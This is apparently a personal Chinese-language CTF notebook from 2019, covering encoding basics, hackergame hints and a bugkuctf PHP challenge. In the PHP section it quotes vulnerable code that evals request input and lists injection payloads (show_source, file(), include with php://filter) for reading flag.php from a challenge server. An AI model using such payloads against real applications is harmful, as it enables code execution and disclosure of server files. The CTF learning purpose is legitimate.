 # CTF记录

---

开始时间 2019/10/17

------------

## 编码总结
-base16：只有16进制的字符串
-base32：base16+=填充
-base64：base32+ ‘/’，‘+’
-md5：标准的md5有16位或32位，16进制字符串

---

## hackergame 2019
### 信息安全2077 时间类
haha 第一题我就🕊了，不愧是我
一开始的思路没错改那个时间戳但是貌似 是burp改不行还是我burp有问题？。。。。

来了来了，wp来了，中科大官方wp https://github.com/ustclug/hackergame2019-writeups?tdsourcetag=s_pctim_aiomsg

### 达拉崩吧 调试类
挺简单的，js文件很容易看出来变量v是关键，直接在买菜的时候改v就可以了

## bugkuctf
### web4
打开之后看源码，1.是post，2.如果a不为undefined而且为67d709b2b54aa2aa648cf6e87a7114f1就返回！0，即真

--------
### 文件包含漏洞

---
#### 本地包含
进去后看到如下代码
 <?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?> 
代码解释：

a、include "flag.php" 他居然把我们想要的flag包含进来了，真是嘿嘿嘿嘿

b、$_request这个变量和$_GET、$_POST一样，都属于超级全局变量，但是呢，运行时修改后者不会影响前者，反之亦然

c、以get/post/cookies等方式把以hello为名的东西提交过来

d、eval函数把字符串当作命令直接执行

e、最后一句把本页代码以高亮语法显示出来

###### 解法1.利用eval
可以构造payload，有点像数据库注入 hello=1);show_source(%27flag.php%27);var_dump(3 把这个带到eval( "var_dump($a);");中就是eval( "var_dump(1);show_source(%27flag.php%27);var_dump(3);");拆分成执行三条语句了 %27为单引号的ASCII
###### 解法2.直接将flag.php文件读入变量hello中

?hello=get_file_contents('flag.php')或

?hello=file('flag.php')

###### 解法3.利用php://filter + eval

http://120.24.86.145:8003/index.php?hello=1);include $_POST['f'];//  （把后面的括号注释掉）

在POST区域：f=php://filter/convert.base64-encode/resource=flag.php?

得到的结果base64解码即可 这个不懂可看下面的php：//filter妙用的链接

试着试着就崩了，没拿到flag可能是网站问题。。。

命令执行漏洞学习总结 https://www.jianshu.com/p/bf64c59b64e6

BugkuCTF-web-本地包含 https://blog.csdn.net/huangming1644/article/details/82818482

谈一谈php://filter的妙用 https://www.leavesongs.com/PENETRATION/php-filter-magic.html

---
### 调试类
#### 点击100万次
定位对应变量clicks，断电，在控制台赋值即可
